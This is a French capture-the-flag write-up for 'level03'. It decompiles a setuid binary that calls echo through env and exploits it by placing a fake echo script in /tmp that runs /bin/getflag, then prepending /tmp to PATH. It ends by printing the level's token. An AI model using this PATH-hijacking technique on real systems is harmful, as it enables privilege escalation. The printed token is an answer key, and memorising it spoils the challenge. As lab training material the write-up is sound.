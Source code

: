 # Rapport CTF - [level03]

### Observation:
En arrivant sur le level on trouve un exécutable nommer `level03` qui a été créer par flag03: `ls -la`

### Code:
Nous allons donc décompiler le code pour pouvoir le comprendre.
On utilise la commande `scp` pour ramener l'exécutable sur notre pc:
`scp -P {PORT} level03@localhost:/home/user/level03/level03 .`

En décompilant grace a Ghidra ou Hex-Ray nous obtenons le code suivant:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
__gid_t v4; // [esp+18h] [ebp-8h]
__uid_t v5; // [esp+1Ch] [ebp-4h]

v4 = getegid();
v5 = geteuid();
setresgid(v4, v4, v4);
setresuid(v5, v5, v5);
return system("/usr/bin/env echo Exploit me");
}
```
On remarque que le `echo` est lancer depuis l'env.



### Solution :
Nous avons donc 2 solutions, soient changées la variable d'environnement echo, soit ajouter une variable d'environnement echo qui lance une commande, nous allons faire cette 2eme solution, car c'est plus simple à enlever.
La première étape consiste a créer un fichier qui se nomme echo avec la commande a exécuter à l'intérieur:
`echo /bin/getflag > /tmp/echo`
Nous devons aussi lui donner les droits d'être exécuter par un autre programme:
`chmod 777 /tmp/echo`

Puis on ajoute notre fake echo dans les variables d'environnement:
`export PATH=/tmp:$PATH`

On lance ensuite notre programme, `./level03`

Et il nous donne directement le mot de passe de l'utilisateur level04 sans avoir besoin de passer par le flag03.

token : qi0maab88jeaj46qoumi7maus
